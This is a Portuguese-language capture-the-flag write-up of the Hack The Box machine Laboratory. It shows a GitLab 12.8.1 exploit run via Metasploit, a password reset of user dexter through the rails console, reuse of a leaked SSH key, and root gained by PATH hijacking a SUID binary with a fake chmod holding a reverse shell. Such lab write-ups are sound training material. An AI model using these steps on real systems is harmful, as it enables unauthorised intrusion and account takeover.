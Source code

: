 ```yaml
---
layout: post
title: "Laboratory - Hackthebox Write-up"
date: 2021-04-17 18:00:00 -0300
categories: Hackthebox
---
```

![Image](/assets/Laboratory/1.png)
## Resumo
Olá a todos, este é o write-up da máquina Laboratory do Hack The Box, se trata de uma máquina que mistura CVE com abuso de funcionalidades do Gitlab e exploração de binários que não utilizam o PATH absoluto.

## Recon


### Nmap Inicial

```sh
nmap -sC -sV -sT 10.10.10.216
   
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
| 256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|\_ 256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)

80/tcp open http Apache httpd 2.4.41
|\_http-server-header: Apache/2.4.41 (Ubuntu)
|\_http-title: Did not follow redirect to [https://laboratory.htb/](https://laboratory.htb/)

443/tcp open ssl/http Apache httpd 2.4.41 ((Ubuntu))
|\_http-server-header: Apache/2.4.41 (Ubuntu)
|\_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|\_Not valid after: 2024-03-03T10:39:28
| tls-alpn:
|\_ http/1.1
```

### Enumeração

Durante a etapa inicial de enumeração foi possível identificar apenas algumas portas abertas, como o serviço do SSH, HTTP e HTTPS, por meio do scan, é possível visualizar que o servidor apache está operando por meio de vhosts.
Dois *vhosts* foram identificados pelo scan do nmap **git.laboratory.htb** e **laboratory.htb**.

```bash 
┌──(l34k3d㉿hanna)-[~/Desktop/HTB/machines/laboratory]
└─$ sudo vim /etc/hosts           
[sudo] password for l34k3d: 
                                     
┌──(l34k3d㉿hanna)-[~/Desktop/HTB/machines/laboratory]
└─$ cat /etc/hosts                                          
127.0.0.1       localhost
127.0.1.1       hanna
10.10.10.216    laboratory.htb git.laboratory.htb
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

O site *laboratory.htb* se trata de um site estático padrão, com o objetivo de mostrar o trabalho da empresa. Por meio do site é possível identificar alguns possíveis usuários do sistema:

![Image](/assets/Laboratory/2.png)

Já o vhost **git** se trata de um Gitlab, um software open source de colaboração com repositórios e códigos da empresa. Por meio deste site é possível criar uma conta e interagir com a aplicação.

![Image](/assets/Laboratory/3.png)

Visto isto, cadastrei uma conta com um email fictício *l34k3d@laboratory.htb*, para visualizar mais informações sobre esta aplicação. Após a enumeração básica, interagindo com links, foi possível encontrar a versão do Gitlab, que é a 12.8.1.

![Image](/assets/Laboratory/4.png)

Realizando uma rápida pesquisa foi possível encontrar uma [vulnerabilidade](https://packetstormsecurity.com/files/160441/GitLab-File-Read-Remote-Code-Execution.html) de leitura de arquivos para esta versão, que pode evoluir para um RCE (*Remote Code Execution*), caso uma propriedade de configuração consiga ser encontrada.

Como o exploit é feito para o Metasploit, foi realizada a [importação do módulo](https://www.hackers-arise.com/post/2017/06/08/metasploit-basics-part-7-adding-a-new-module-eternalblue) para a sua execução.

![Image](/assets/Laboratory/5.png)

Com o módulo importado, as opções foram configuradas e conseguimos a nossa primeira shell.

![Image](/assets/Laboratory/6.png)
# Exploração

Após perceber algumas limitações na primeira shell, utilizei um módulo de pós exploração chamado shell_to_meterpreter, que acaba por abrir uma nova sessão com o meterpreter, um payload com mais opções de enumeração.

![Image](/assets/Laboratory/7.png)

Após [enumerar](https://book.hacktricks.xyz/linux-unix/privilege-escalation) a máquina e não encontrar nenhum vetor de ataque para escalação de privilégios, foi identificado que o vhost git.laboratory.htb se trata de um docker.

![Image](/assets/Laboratory/8.png)

Como não estava evoluindo no docker escape, decidi olhar o forúm para receber algumas dicas de como prosseguir, muitos usuários deram a dica de ler a documentação do gitlab.
Durante a leitura desta documentação, identifiquei que o Gitlab possui uma maneira de interagir diretamente com sua base de dados, com o intuito de resolução de problemas, por meio do [gitlab rails console](https://docs.gitlab.com/ee/administration/troubleshooting/navigating_gitlab_via_rails_console.html).
Acessando o gitlab rails console foi possível a identificação do usuário dexter, assim, realizei a alteração de sua senha por meio do console e loguei em sua conta por meio do site.

![Image](/assets/Laboratory/9.png)

Para alteração os seguintes comandos foram utilizados:

```rb
user = User.find_by(username: 'dexter')
user.update(password: 'novasenha')
```
E assim logamos no gitlab novamente, onde foi possível identificar um repositório privado:

!(/assets/Laboratory/10.png)

Neste repositório foi possível encontrar a chave privada de SSH do Dexter, sendo possível agora, acessar a máquina real.

![Image](/assets/Laboratory/11.png)

```bash
┌──(l34k3d㉿hanna)-[~/Desktop/HTB/machines/laboratory]
└─$ ssh -i id_rsa dexter@laboratory.htb
dexter@laboratory:~$ id && hostname
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
laboratory
dexter@laboratory:~$ 
```

## Escalação de Privilégios

Após a [enumeração da máquina](https://book.hacktricks.xyz/linux-unix/privilege-escalation), foi possível identificar um binário diferente com o SUID setado, ou seja, possível vetor para escalação de privilégios pois o binário é executado como **root**. 

```bash
dexter@laboratory:~$ ls -la /usr/local/bin/docker-security 
-rwsr-xr-x 1 root dexter 16720 Aug 28  2020 /usr/local/bin/docker-security
```

Por meio do [pspy](https://github.com/DominicBreuker/pspy) foi possível entender as ações do binário.

```bash
2021/03/27 20:36:05 CMD: UID=0 PID=4059 | /usr/local/bin/docker-security

2021/03/27 20:36:05 CMD: UID=0 PID=4060 | sh -c chmod 700 /usr/bin/docker

2021/03/27 20:36:05 CMD: UID=0 PID=4062 | sh -c chmod 660 /var/run/docker.sock

2021/03/27 20:36:05 CMD: UID=0 PID=4063 | sh -c chmod 660 /var/run/docker.sock
```

O binário executa um comando que utiliza o **chmod** para alterar a permissão de alguns arquivos do docker. O problema é que o binário *chmod* não está com o caminho completo, abrindo portas para ataques de abuso de PATH, desta forma, criamos um binário chamado *chmod* contendo uma shell reversa e o adicionamos ao nosso PATH de usuário.

![Image](/assets/Laboratory/12.png)

```bash
export PATH=/tmp/l34k3d/:$PATH
```

E executamos o script docker-security:

![Image](/assets/Laboratory/13.png)

Após isso, nosso binário chmod malicioso é executado e recebemos a shell como root.

![Image](/assets/Laboratory/14.png)

# Considerações Finais
As vulnerabilidades que a máquina apresenta são semelhantes a muitos vetores de ataques atualmente, o uso de componentes com vulnerabilidades conhecidas está na OWASP Top 10 e é amplamente explorado por agentes maliciosos.
A chave para comprometer totalmente a máquina foram erros de configuração, como a exposição indevida da chave de SSH, e a criação de um binário com SUID sem o PATH total, a enumeração e pesquisa, como sempre, foram cruciais para a execução dos ataques.
Este foi o meu primeiro write-up, espero que tenham gostado, estou aberto a dicas e sugestões. Contate-me via LinkedIn ou Twitter!
